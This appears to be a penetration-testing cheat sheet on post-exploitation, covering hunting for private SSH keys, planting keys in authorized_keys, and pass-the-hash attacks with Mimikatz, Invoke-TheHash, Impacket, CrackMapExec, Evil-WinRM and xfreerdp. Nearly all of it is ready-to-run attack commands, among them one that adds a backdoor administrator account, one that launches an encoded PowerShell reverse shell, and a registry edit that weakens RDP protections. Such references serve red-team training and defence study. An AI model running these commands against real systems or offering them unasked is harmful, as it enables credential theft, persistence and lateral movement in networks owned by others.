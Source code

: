 ```yaml
---
description: >-
  Lateral movement is process in Penetration Testing or Red Teaming when
  attacker moves through system, impersonate users and escalation privileges
  vertically or horizontally.
hidden: true
---
```


# Post-Exploitation

## SSH Keys

### Looking for keys

```bash
grep -rnw "PRIVATE KEY" /* 2>/dev/null | grep ":1"
```

* If you have access to some **private key** you could download it and use, but check if permissions to private key is <mark style="color:red;">**chmod 600**</mark>
* If you have access to <mark style="color:green;">`/.ssh/authorized_keys`</mark> file, then put your **public key** inside of this file, and then you could log in without password

```bash
ssh -i /path/to/private/keyfile user@hostname
```

## Pass The Hash

A **Pass the Hash (PTH)** attack involves an attacker using a password hash in place of the actual password for authentication. This method allows the attacker to bypass the need to decrypt the hash to retrieve the password. **PTH** attacks take advantage of the fact that the authentication protocol accepts the hash directly, as it remains unchanged for all sessions until the password is altered.

***

### Windows PTH

#### Mimikatz

```powershell
mimikatz.exe privilege::debug "sekurlsa::pth /user:carni7 /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:{DOMAIN} /run:cmd.exe" exit
```

Explanation:

* <mark style="color:blue;">**`privilege::debug`**</mark> - equivalent of admin rights
* <mark style="color:blue;">**`/user:carni7`**</mark> - user we want to impersonate
* <mark style="color:blue;">**`/rc4`**</mark> or <mark style="color:blue;">**`/NTLM`**</mark> - user's password hash. rc4 is algorithm
* <mark style="color:blue;">**`/domain`**</mark> - The domain to which the user being impersonated belongs. For a local user account, you can use the computer name, localhost, or simply a dot (.)
* <mark style="color:blue;">**`sekurlsa::pth`**</mark> - mimikatz popular module, which is used for extracting credentials from LSASS.
* <mark style="color:blue;">**`/run:cmd.exe`**</mark> - Instructions to mimikatz to run cmd after injecting hash

#### Invoke-TheHash

Besides mimikatz we could use [**Invoke-TheHash**](https://github.com/Kevin-Robertson/Invoke-TheHash) for **PTH** on Windows. This tool uses **PowerShell** functions for performing **Pass the Hash** attacks with **WMI** and **SMB**. Authentication is performed by passing an **NTLM** hash into the NTLMv2 authentication protocol.

```powershell
Import-Module .\Invoke-TheHash.psd1
```

* **SMB**

```powershell
Invoke-SMBExec -Target 13.13.13.13 -Domain somedomain.sus -Username carni7 -Hash 12379N1D2YV31U20931C031 -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```

* **WMI**

```powershell
Invoke-WMIExec -Target DC01 -Domain {DOMAIN} -Username carni7 -Hash 12379N1D2YV31U20931C031 -Command "powershell -e JUSTLETSIMAGINETHISISBASE64ENCODEDPOWERSHELLREVERSESHELLCODE=="
```

***

### Linux PTH&#x20;

#### Impacket

Impacket has a lot of useful tools, but for this situtation we need only <mark style="color:blue;">**`PsExec`**</mark>. Besides that we could use also [**wmiexec**](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py), [**atexec**](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py), [**smbexec**](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py)**.**&#x20;

```bash
impacket-psexec administrator@13.13.13.13 -hashes :12379N1D2YV31U20931C031
impacket-wmiexec administrator@13.13.13.13 -hashes :12379N1D2YV31U20931C031
```

#### CrackMapExec

```bash
crackmapexec smb 13.13.13.13 -u Administrator -d . -H 12379N1D2YV31U20931C031 -x whoami
```

#### Evil-winrm&#x20;

```bash
evil-winrm -i 13.13.13.13 -u Administrator -H 12379N1D2YV31U20931C031
```

#### RDP

By default, Windows has disabled <mark style="color:green;">`Restricted Admin Mode`</mark>, and we need to fix that by adding new registry key to <mark style="color:green;">`DisableRestrictedAdmin`</mark>

```powershell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

And then to use <mark style="color:blue;">**xfreerdp**</mark> for Pass The Hash

```powershell
xfreerdp /v:13.13.13.13 /u:carni7 /pth:12379N1D2YV31U20931C031
```
